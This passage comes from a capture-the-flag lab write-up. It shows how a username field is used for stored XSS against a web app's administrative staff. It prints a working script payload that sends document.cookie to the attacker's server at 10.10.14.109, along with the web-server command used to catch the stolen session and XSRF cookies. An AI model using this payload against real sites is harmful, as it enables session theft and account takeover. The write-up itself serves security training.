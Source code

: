 ![](images/Pasted%20image%2020220215174636.png)

Note how the user's username also appears in the message at `/message/$MESSAGE_ID` (**Message from: tgihf**). `SingleQuoteMan`'s post on the forum seems to indicate that there were issues parsing "invalid" characters in users' usernames and the support team made it seem like, instead of fixing the parsing logic, they simply prevented users from registering usernames with "invalid" characters.

It is possible to change the current user's username via the profile page at `/user/profile`. Perhaps it is possible to inject an XSS payload into the username and have it execute when the administrative staff opens a message.

On the attacking machine, start a web server.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Change the username to the following XSS payload, where `10.10.14.109` is the IP address of the attacker's web server. This payload will disclose the cookies that the connecting account has associated with the web application. Assuming an administrative user is the one connecting, these cookies could be reused for administrative access to the web application.

```html
<script>document.location='http://10.10.14.109/tgihf.js?c='+document.cookie</script>
```

Send an arbitrary message. Wait a bit and receive a connection from the administrative staff containing the `XSRF-TOKEN` and `earlyaccess_session` cookies.
